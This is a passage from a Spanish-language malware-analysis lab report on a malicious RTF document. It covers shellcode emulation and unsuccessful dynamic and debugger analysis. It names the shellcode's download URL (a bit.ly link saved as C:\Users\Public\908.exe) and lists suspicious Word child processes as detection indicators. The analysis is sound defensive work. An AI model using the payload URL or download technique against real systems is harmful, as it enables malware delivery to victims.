La emulación permitió observar llamadas a GetProcAddress, ExpandEnvironmentStringsW, LoadLibraryW y URLDownloadToFileW. En concreto, el shellcode expande la ruta %PUBLIC%\908.exe, carga la librería UrlMon y llama a URLDownloadToFileW para descargar el recurso http://bit.ly/34vzFlU y guardarlo como C:\Users\Public\908.exe.

Aunque la emulación finaliza posteriormente por una limitación de libemu al intentar continuar con oleaut32/SysAllocString, se confirma el comportamiento principal del shellcode como downloader.

------


-------------

XXXXXXXXXXXXXXXXXXXXXX


Durante el análisis dinámico básico de la muestra de este laboratorio, se ejecutó el documento RTF en una máquina virtual controlada utilizando **Microsoft Word 2013** como aplicación asociada. Antes de la ejecución se prepararon herramientas de monitorización como **Procmon, Process Explorer, Regshot, Autoruns y Wireshark**, con el objetivo de observar posibles cambios en procesos, sistema de archivos, registro, persistencia y comunicaciones de red.

Tras abrir la muestra, se observó actividad asociada a **WINWORD.EXE**, como acceso al documento, generación de ficheros temporales y escritura en rutas propias de caché, por ejemplo en directorios relacionados con `Content.Word`. También se detectaron modificaciones normales en claves de Microsoft Office, como la actualización del historial de documentos recientes.

Sin embargo, durante la ejecución no se observaron indicadores claros de detonación del malware. En Process Explorer no se identificaron procesos hijos sospechosos creados por `WINWORD.EXE`, como `cmd.exe`, `powershell.exe`, `mshta.exe`, `rundll32.exe`, `regsvr32.exe`, `wscript.exe` o `EQNEDT32.EXE`. En Procmon tampoco se localizaron eventos relevantes de creación de procesos, conexiones TCP, modificaciones de claves de persistencia como `CurrentVersion\Run`, ni escritura de payloads evidentes en rutas como `AppData`, `Temp` o `ProgramData`.

Se realizó también un intento de **análisis dinámico avanzado con x64dbg**, se adjuntó el depurador al proceso `WINWORD.EXE` con el objetivo de observar si la apertura de la muestra RTF provocaba llamadas relevantes asociadas a ejecución de código, creación de procesos, descarga de payloads, conexiones de red o modificación del registro.

Para ello se establecieron breakpoints en funciones sensibles, como llamadas relacionadas con creación de procesos, ejecución mediante shell, comunicaciones de red, descarga de ficheros y escritura en el registro. La finalidad era detectar si la muestra alcanzaba alguna rutina típica de comportamiento malicioso tras ser procesada por Microsoft Word.

Después de aproximadamente 14 minutos de observación, el flujo de ejecución no alcanzó los breakpoints configurados. No se observaron paradas relevantes en funciones como creación de procesos, ejecución de comandos, descarga de contenido remoto, conexión de red o modificación significativa del registro. Las interrupciones observadas durante la sesión correspondieron a actividad normal del entorno, como carga de DLLs o funcionamiento interno de Word/Windows, sin evidencia clara de comportamiento malicioso.

Finalmente, **el proceso terminó sin que se identificara ejecución de payload ni actividad asociada a los breakpoints establecidos**. Por tanto, el análisis con x64dbg tampoco permitió confirmar la detonación de la muestra. Este resultado refuerza la conclusión de que, <mark>en el entorno utilizado, la muestra no llegó a ejecutarse de forma observable o no cumplió las condiciones necesarias para activar su cadena de explotación.</mark>







